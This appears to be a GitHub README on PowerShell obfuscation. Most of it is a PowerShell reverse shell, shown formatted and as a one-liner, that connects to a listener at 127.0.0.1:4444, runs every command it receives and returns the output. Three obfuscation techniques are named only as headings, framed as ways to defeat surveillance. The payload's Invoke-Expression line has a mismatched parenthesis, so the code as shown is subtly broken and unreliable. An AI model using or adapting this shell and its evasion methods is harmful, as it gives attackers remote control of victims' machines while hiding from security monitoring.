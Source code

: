 # Theory

> Obfuscation is the deliberate addition of ambiguous, confusing, or misleading information to interfere with surveillance and data collection

### Raw Payload

```Powershell
$ReverseShellConnection = New-Object System.Net.Sockets.TCPClient("127.0.0.1", 4444)
$NetworkStream = $ReverseShellConnection.GetStream()
$ReadBuffer = New-Object Byte[] 65536

while (($BytesRead = $NetworkStream.Read($ReadBuffer, 0, $ReadBuffer.Length)) -ne 0) {
    $CommandOutput = [System.Text.Encoding]::ASCII.GetString($ReadBuffer, 0, $BytesRead)
    $ExecutedOutput = Invoke-Expression $CommandOutput 2>&1) | Out-String
    $PromptWithOutput = $ExecutedOutput + [Environment]::UserName + '@' + [System.Net.Dns]::GetHostName() + ' [' + $(Get-Location) + ']~$ '
    $OutputBytes = [text.encoding]::ASCII.GetBytes($PromptWithOutput)
    $NetworkStream.Write($OutputBytes, 0, $OutputBytes.Length)
    $NetworkStream.Flush()
}

$ReverseShellConnection.Close()
```
or
```Powershell
$ReverseShellConnection = New-Object System.Net.Sockets.TCPClient("127.0.0.1", 4444);$NetworkStream = $ReverseShellConnection.GetStream();$ReadBuffer = New-Object Byte[] 65536;while (($BytesRead = $NetworkStream.Read($ReadBuffer, 0, $ReadBuffer.Length)) -ne 0) {;$CommandOutput = [System.Text.Encoding]::ASCII.GetString($ReadBuffer, 0, $BytesRead);$ExecutedOutput = Invoke-Expression $CommandOutput 2>&1) | Out-String;$PromptWithOutput = $ExecutedOutput + [Environment]::UserName + '@' + [System.Net.Dns]::GetHostName() + ' [' + $(Get-Location) + ']~$ ';$OutputBytes = [text.encoding]::ASCII.GetBytes($PromptWithOutput);$NetworkStream.Write($OutputBytes, 0, $OutputBytes.Length);$NetworkStream.Flush()};$ReverseShellConnection.Close()
```

### Powershell Obfuscation Methods

<p>Numeric to string conversion obfuscation</p>

<p>Character code obfuscation</p>

<p>String slicing and indexing obfuscation</p>
